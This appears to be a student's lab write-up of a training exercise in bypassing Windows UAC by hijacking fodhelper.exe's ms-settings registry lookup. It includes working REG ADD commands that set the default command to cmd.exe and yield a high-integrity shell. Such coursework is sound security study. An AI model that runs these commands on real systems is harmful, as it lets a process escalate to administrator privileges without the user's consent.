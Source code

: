 ### 18.2.3.2 Exercise
#### 1. Log in to your Windows client as the admin user and attempt to bypass UAC using the application and technique covered above

1. Examine fodhelper.exe with sigcheck.exe (From [SysInternalsSuite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite))

   ```powershell
   c:\Tools\privilege_escalation\SysinternalsSuite\sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
   ```

   Found these settings in the manifest:
   ![image-20200722142356696](.18.2.3.2.assets/image-20200722142356696.png)

   - `RequestedExecutionLevel` - The application requires admin level access to run
   - `autoElevate` - Allows the executable to auto-elevate to high integrity without prompting the admin user for consent

2. Monitor the fodhelper tool with Process Monitor (From [SysInternalsSuite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)) to find missing registry keys we might be able to modify.

   - Use the filters to reduce out:
     - By Process Name `Process Name is fodhelper.exe`
     - By Registry edits `Operation contains Reg`
     - By Registry keys that don't exist `Result contains NAME NOT FOUND`
       ![image-20200722154042318](.18.2.3.2.assets/image-20200722154042318.png)
   - This yields results for an 'Open' call to ms-settings entries, which are further refined to notice that it is access HKCU first, then HKCR, which shows the potential for program execution by fodhelper since we have access to HKCU entries.![image-20200722154327654](.18.2.3.2.assets/image-20200722154327654.png)

3. I hijack the fodhelper's process by creating the missing key in HKCU and leaving the entry blank

   - `REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command`
   - I then re-run fodhelper.exe and add back the result filter to see how adding that key changes things `Result contains NAME NOT FOUND` as well as `Path contains ms-settings\Shell\Open\command`
   - I clear the existing Process Monitor results and restart fodhelper.exe, thencheck ProcMon to find a new 'NAME NOT FOUND' entry with `...\Open\command\DelegateExecute`.  
   - This would point to a COM object, but I don't want that, so I create this key and leave it empty.  `REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ`
   - To verify this change, replace the I replace `NAME NOT FOUND` keywords with `SUCCESS` in the ProcMon filters, clear the results, then re-run fodhelper and see SUCCESS entries for the newly added DelegateExecute key.
     ![image-20200722155048915](.18.2.3.2.assets/image-20200722155048915.png)
   - I notice also that there is an entry for ..\\(Default) now showing as well.  Because DelegateExecute was empty, fodhelper will instead try to execute a default command in that registry entry.  This value is set to null by default, however, so nothing happens....yet.
   - I set the empty (Default) value with a value of your own, for instance, cmd.exe `REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f`

4. Exploit Successful

   - I run fodhelper.exe again and a cmd shell will appears.
     ![image-20200722155208866](.18.2.3.2.assets/image-20200722155208866.png)
   - I verify the integrity level is set to 'High' with `whoami /groups`
     ![image-20200722155231177](.18.2.3.2.assets/image-20200722155231177.png)